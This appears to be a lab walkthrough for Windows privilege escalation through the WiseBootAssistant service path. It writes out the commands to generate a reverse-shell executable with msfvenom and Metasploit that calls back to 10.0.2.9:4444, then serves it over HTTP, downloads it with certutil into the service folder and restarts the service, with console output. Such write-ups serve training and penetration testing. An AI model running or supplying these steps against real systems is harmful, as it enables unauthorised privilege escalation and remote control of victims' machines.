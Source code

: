 ```console
```

3. Exploit:

A successful attempt to exploit this vulnerability requires the attacker to insert an executable file into the service path undetected by the OS or some security application.
When restarting the service or the system, the inserted executable will run with elevated privileges.

> Lets create a reverse shell payload

## Privilege Escalation [Metasploit / MsfVenom ]

### Metasploit 

- `use payload/windows/x64/shell_reverse_tcp`
- set lhost and lport
- generate payload `generate -f exe -o Wise.exe`  


### MsfVenom

- `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.2.9 LPORT=4444 -f exe -o vWise.exe`

```console
┌──(kali㉿kali)-[~]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.2.9 LPORT=4444 -f exe -o Wise.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: vWise.exe
```
### Execution

On host system:
- move payload to transfers folder `mv ~/Wise.exe ~/transfers `
- start http server `python3 -m http.server 80`

On target system:
- go to target path `cd C:\Program Files (x86)\Wise`
- download payload `certutil.exe -urlcache -f http://10.0.2.9/Wise.exe Wise.exe`
- stop service `sc stop WiseBootAssistant`
- check status `sc query WiseBootAssistant`
```console
C:\Program Files\Jenkins>sc query WiseBootAssistant
sc query WiseBootAssistant

SERVICE_NAME: WiseBootAssistant 
        TYPE               : 110  WIN32_OWN_PROCESS  (interactive)
        STATE              : 1  STOPPED 
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
```
- start service `sc start`
```console
C:\Program Files\Jenkins>sc start WiseBootAssistant
sc start WiseBootAssistant
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```
